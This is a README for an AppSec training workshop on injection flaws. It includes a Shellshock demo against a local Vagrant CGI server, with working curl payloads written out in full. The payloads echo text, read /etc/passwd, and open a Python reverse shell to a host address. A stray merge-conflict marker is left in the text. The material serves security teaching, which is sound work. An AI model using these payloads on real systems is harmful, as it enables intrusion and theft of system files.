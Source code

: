 # Injection Workshop, part 2

## [Getting started as a facilitator](README-facilitator.md)

## Purpose

The first injection workshop covered SQL injection in detail. However, injection
vulnerabilities can exist anywhere user input is included in code or
instructions that are interpreted.

This workshop is a presentation that goes into further detail about other types
of common injection flaws.

It covers:
* Path traversal
* Shell (command) injection
* Shellshock
* HTTP header injection
* JavaScript injection

# Part 2 of the AppSec 101 injection workshop
### Created by Cade Cairns <cade@thoughtworks.com> and Chelsea Komlo <ckomlo@thoughtworks.com>

# Getting started on the Shellshock demo for this workshop

All necessary instruction & demo materials can be found within the shellshock subfolder
  
## Setup
   1. Set up a vagrant box using this vagrant file. This will install Apache and forward to port 8080..
   2. Create a cgi file in /usr/lib/cgi-bin. It can be as simple as html content type "hello world."
   3. Test the following vulnerabilities against http://localhost:8080/cgi-bin/somefileofyourchoice.sh


## Demoing the vulnerability
### To test via the command line:

```sh
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```
(If you see "vulnerable" you need to update bash. Otherwise, you should be good to go.)


#### Via curl:

#### To just echo data:

```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; echo 'hi world of exploits'" http://localhost:8080/cgi-bin/shellshock_test.sh
```

#### To copy passwords:
```sh
curl -H "Useragent: () { :; }; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```

#### To create a reverse shell:
 ```sh
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.2\",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno    (),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://localhost:8080/cgi-bin/shellshock_test.sh
 ```


## More information about Shellshock:
 Source: https://en.wikipedia.org/wiki/Shell_shock

This is a major vulnerability that occurs when specific characters are included as part of a variable definition in Bash.

Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition.

If the characters "{ :;};" are included as the function definition, any arbitrary code that is inserted AFTER that definition is processed. This isn't supposed to happen.

### Why is CGI vulnurable?

The Common Gateway Interface (CGI) vector (an interface between a web server and executables that produce dynamic content) has received the bulk of the focus from attackers thus far. However, the reac    h of the BASH Shellshock bug doesn’t stop at web servers. Any application that relies on user-controlled data to set OS-level environment variables and then invokes the shell from that same context can trigger the vulnerability. In other words, web applications relying on a specific type of user input can be manipulated to make clients (i.e., consumers) vulnerable to attack.
 
 Because CGI relies on environment variables set in the header which are later interpreted to generate dynamic content, it is vulnerable to this kind of attack.
>>>>>>> CK Adding in shellshock demo info

Built using [reveal.js 3.0](https://github.com/hakimel/reveal.js/tree/3.0.0)
